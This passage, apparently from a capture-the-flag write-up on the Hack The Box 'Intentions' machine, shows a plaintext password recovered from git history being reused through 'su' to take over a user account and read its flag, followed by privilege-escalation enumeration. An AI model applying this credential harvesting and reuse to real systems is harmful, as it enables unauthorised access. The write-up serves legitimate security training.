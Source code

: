 cd in .git now:
```
git log

git show 36b4287cf2fb356d868e71dc1ac90fc8fa99d319
....

{
+    public static function getToken($test, $admin = false) {
+        if($admin) {
+            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
+            return $res->headers->get('Authorization');
+        } 
+        else {
+            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg_user@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
+            return $res->headers->get('Authorization');
+        }
+    }
+}
```

we now have gregs password!

in shell can run `su greg`
password: `Gr3g1sTh3B3stDev3l0per!1998!`

```
cd /home/greg
cat user.txt
3e1d3182793a7**************
```

USER PWN!

---
### Priv Esc

```
 sudo -l
[sudo] password for greg: 
Sorry, user greg may not run sudo on intentions.
```

i check the home dir of greg:
```
ls -la
total 52
drwxr-x--- 4 greg greg  4096 Jun 19  2023 .
drwxr-xr-x 5 root root  4096 Jun 10  2023 ..
lrwxrwxrwx 1 root root     9 Jun 19  2023 .bash_history -> /dev/null
-rw-r--r-- 1 greg greg   220 Feb  2  2023 .bash_logout
-rw-r--r-- 1 greg greg  3771 Feb  2  2023 .bashrc
drwx------ 2 greg greg  4096 Jun 10  2023 .cache
-rwxr-x--- 1 root greg    75 Jun 10  2023 dmca_check.sh
-rwxr----- 1 root greg 11044 Jun 10  2023 dmca_hashes.test
drwxrwxr-x 3 greg greg  4096 Jun 10  2023 .local
-rw-r--r-- 1 greg greg   807 Feb  2  2023 .profile
-rw-r----- 1 root greg    33 Sep 15 23:37 user.txt
-rw-r--r-- 1 greg greg    39 Jun 14  2023 .vimrc
```
 